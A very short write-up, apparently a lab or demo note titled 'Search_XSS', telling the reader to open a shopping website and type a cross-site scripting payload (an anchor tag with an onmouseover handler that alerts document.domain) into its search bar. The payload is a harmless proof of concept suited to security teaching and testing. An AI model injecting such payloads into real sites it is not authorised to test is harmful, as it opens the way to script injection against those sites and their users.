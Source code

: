 # Search_XSS

1. Access the Shopping Website
2. type the below payload in the search bar

Payload: <a onmouseover="alert(document.domain)">xxs link</a>
